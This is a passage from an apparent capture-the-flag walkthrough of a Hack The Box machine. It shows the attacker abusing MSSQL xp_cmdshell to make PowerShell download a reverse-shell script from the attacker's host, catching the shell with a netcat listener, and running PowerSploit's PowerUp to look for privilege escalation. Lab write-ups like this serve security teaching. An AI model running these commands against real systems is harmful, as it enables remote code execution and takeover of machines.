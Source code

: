 <div class="title">

Figure 14. Http server

</div>

</div>

To make the server download our file, we can use `Powershell` as
follows.

``` bash
> EXEC master.dbo.xp_cmdshell 'powershell.exe \\
       Invoke-WebRequest http://10.10.15.1:8000/Invoke-PowerShellTcp.ps1 \\
       -OutFile c:\Users\mssql-svc\Music\Invoke-PowerShellTcp.ps1';
```

Now to get an interactive shell we set our machine to listen
`port 30000` and execute the script in the `HTB` machine.

``` bash
nc -lvp 30000
```

``` bash
> EXEC master.dbo.xp_cmdshell 'powershell.exe \\
       c:\Users\mssql-svc\Music\Invoke-PowerShellTcp.ps1';
```

<div class="imgblock">

![shell-nc](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331036/blog/querier-writeup/shell-nc_iqz8mh.webp)

<div class="title">

Figure 15. Interactive shell

</div>

</div>

At this point we use the module `PowerUp.ps1` from the `PowerSploit`
collection to scan the system to find a way to escalate privileges. We
can use the same method as in the last step. We upload the file to the
server with `Python3`.

To execute the script we need to import it first, next we can run all
checks with the command `Invoke-AllChecks`. It will output any
identifiable vulnerabilities along with specifications for any abuse
functions.

``` bash
> Import-Module C:\Users\mssql-svc\Music\PowerUp.ps1
> Invoke-AllChecks
```

<div class="imgblock">

![powerup](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331036/blog/querier-writeup/powerup_a8a5bo.webp)
